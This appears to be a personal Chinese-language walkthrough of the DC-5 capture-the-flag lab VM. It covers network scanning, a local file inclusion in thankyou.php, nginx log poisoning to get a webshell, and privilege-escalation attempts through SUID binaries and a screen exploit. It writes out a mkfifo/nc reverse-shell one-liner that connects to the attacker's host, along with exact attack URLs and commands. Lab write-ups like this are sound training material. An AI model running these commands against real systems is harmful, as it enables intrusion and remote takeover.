虚拟机用的NAT模式，看一下自己NAT的网卡的段

nmap找IP
- nmap 192.168.87.0/24 -sP

nmap扫一下端口
- nmap -Pn -sV 192.168.87.132
PORT STATE SERVICE VERSION
80/tcp open http nginx 1.6.2
111/tcp open rpcbind 2-4 (RPC #100000)
太少了
再用masscan扫一下
- masscan -p0-65535 192.168.87.132
Discovered open port 57216/tcp on 192.168.87.132
Discovered open port 80/tcp on 192.168.87.132
Discovered open port 111/tcp on 192.168.87.132
没东西
同时dirsearch扫一下目录
- python .\dirsearch.py -u http://192.168.87.132/ -e php
[15:50:10] Starting:
[15:50:24] 200 - 4KB - /contact.php
[15:50:24] 301 - 184B - /css -> http://192.168.87.132/css/
[15:50:26] 200 - 6KB - /faq.php
[15:50:27] 301 - 184B - /images -> http://192.168.87.132/images/
[15:50:27] 403 - 570B - /images/
[15:50:27] 200 - 4KB - /index.php
[15:50:36] 200 - 852B - /thankyou.php
Task Completed
xray扫出了这个
暂时用不上
去看了一下作者的视频提示

https://www.five86.com/dc-5-clue.html
有个文件包含
http://192.168.87.132/thankyou.php?file=/etc/passwd
后面改了一下网卡，ip变成了192.168.101.128
后续getshell思路是，执行
192.168.101.128/thankyou.php?
在nginx中它会被记录到log日志中，日志有两种，正确的和错误的
文件路径分别为
/var/log/nginx/access.log
/var/log/nginx/error.log
在读取的是时候两个都试试，
192.168.101.128/thankyou.php?file=/var/log/nginx/error.log
192.168.101.128/thankyou.php?file=/var/log/nginx/access.log
error的连不上，
用access这个连上去了，但是练上去后我人就傻了

这™的是什么
（蚁剑的问题，更新一下就好了）
注意写数据到日志的时候要用bp，直接浏览器写会进行编码，导致数据解析不出来
蚁剑连进去后，看一下各种信息，反弹shell到kali
监听 nc -lvvp 4567
mkfifo /tmp/bd;cat /tmp/bd | /bin/sh -i 2>&1 | nc 192.168.101.130 4567 >/tmp/bd


准备提权
nginx1.6.2有个提权的漏洞
CVE-2016-1247
但是用不了

少了权限
用 find / -perm -u=s -type f 2>/dev/null 查找一下可以用root权限运行的命令
找到了screen这个，去searchsploit里找到了相应的利用文件

把文件下载过来上传到目标/tmp目录里，直接用发现不太行
直接对着文件内容，一步一步过来


